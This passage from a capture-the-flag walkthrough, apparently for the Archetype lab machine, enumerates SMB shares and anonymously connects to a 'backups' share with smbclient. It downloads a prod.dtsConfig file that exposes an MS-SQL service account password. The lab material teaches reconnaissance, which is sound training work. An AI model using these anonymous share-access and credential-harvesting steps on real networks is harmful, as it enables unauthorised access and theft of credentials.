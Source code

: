 We get the follwing shares available:

```awk
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.95.187 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

We find that the backups share is publicly available and it's not an administrative share.&#x20;

### Enumerate and dump contents from backups share

```awk
smbclient -N  \\\\10.129.95.187\\backups
```

We find a file named `prod.dtsConfig`.&#x20;

```
smb: \> dir
  .                                   D        0  Mon Jan 20 17:50:57 2020
  ..                                  D        0  Mon Jan 20 17:50:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 17:53:02 2020

                5056511 blocks of size 4096. 2616175 blocks available
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```

A DTSCONFIG file (or a `.dtsConfig` file )is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages. The file contains one or more package configurations that consist of [metadata](https://techterms.com/definition/metadata) such as the server name, database names, and other connection properties to configure SSIS packages.

**DTSCONFIG files often contain sensitive information, therefore, access to the location of the files should be restricted.**

The contents of the file reveals a username and password for the MS-SQL database which we found in the port scan results.

{% code overflow="wrap" %}
```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
{% endcode %}
